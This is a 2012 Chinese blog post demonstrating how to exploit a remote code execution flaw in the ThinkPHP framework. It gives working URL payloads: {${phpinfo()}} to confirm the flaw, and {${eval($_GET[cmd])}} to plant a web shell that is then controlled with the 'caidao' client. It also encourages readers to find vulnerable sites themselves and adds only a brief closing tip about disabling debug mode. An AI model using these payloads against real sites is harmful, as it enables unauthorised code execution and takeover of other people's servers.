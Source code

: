 title: "ThinkPHP远程执行漏洞利用"
id: 109
date: 2012-07-06 00:56:10
tags: 
- thinkPHP漏洞
categories: 
- 原创作品
- 技术文章
---

睡前一篇文章已经成为习惯，今天就给大家展示一个thinkphp漏洞的利用，其实这个漏洞已经爆出来很久了。只不过很少有人发布这样的文章而已。

先说下ThinkPHP的url规则,这个url规则是thinkPHP默认规则，当然也可以通过路由重写来实现各种你想要的效果。先看看ThinkPHP默认的规则：

>http://www.creturn.com/index.php/news/view/1

分析下这个url

>http://www.creturn.com/index.php  这个是入口

>/news/view/1  其中第一个参数news是指ThinkPHP中的模块，view指的是ThinkPHP中的方法，而后面的参数1则是参数。而漏洞恰巧出在对参数过滤不严格上面了。导致可以提交php方法上去远程执行。

还是事例来进行演示：

先找一个有thinkPHP漏洞的站点，具体怎么找就不说了。因为ThinkPHP在国内PHP框架中使用的还是比较广泛的，所以存在漏洞的站点，尤其很多大型站点都采用了ThinkPHP框架

据我了解不少游戏官网就是用thinkPHP作为底层开发框架的。好了不废话了看图。

在存在漏洞的页面中输入:www.creturn.com/index.php/fuck
<!--more-->
好吧，为什么是fuck？前面已经说了第一个参数是模块那么系统肯定找不到模块的，所以出错信息：

[![](http://asset.creturn.com/asset/uploads/2012/07/think1.png "think1")](http://asset.creturn.com/asset/uploads/2012/07/think1.png)

可以看到是thinkPHP框架

那么测试一下站点是否存在远程执行漏洞。

注意你的参数不要远程执行命令不能直接卸载index.php 后面的两个参数，最少要是第三个，前面已经说了第一个参数是模块，第二个参数是是方法。而从第三个开始是参数，因为此漏洞就是对参数过滤不严格并且导致可执行远程命令

找到一个这样的连接:

>http://www.creturn.com/index.php/article/show/id/116

很明显可以看到他id后面跟的一个116.用漏洞命令替换它看看是否存在漏洞

远程执行命令参数{${PHP代码}}，替换后就是：

>http://www.creturn.com/index.php/article/show/id/{${phpinfo()}}  加一个PHP的探针

测试下看是否能够执行此命令：

[![](http://asset.creturn.com/asset/uploads/2012/07/think2.png "think2")](http://asset.creturn.com/asset/uploads/2012/07/think2.png)

可以看到已经解析了。那么就证明此站点存在远程执行漏洞，那么我们可以直接写入菜刀的一句话：

一句话命令：{${eval($_GET[cmd])}} 替换之前的命令然后用菜刀连接

>地址为：http://www.creturn.com/index.php/article/show/id/{${eval($_GET[cmd])}}

菜刀连接看下效果：

[![](http://asset.creturn.com/asset/uploads/2012/07/think3.png "think3")](http://asset.creturn.com/asset/uploads/2012/07/think3.png)

好吧，就到这里。上面的真实地址我都替换掉了，目的只是演示thinkPHP远程执行命令的方法。还有就是提醒各位使用thinkphp框架的朋友，开发完东西后记住把debug模式关掉要不然很容以就看出是thinkphp的框架。
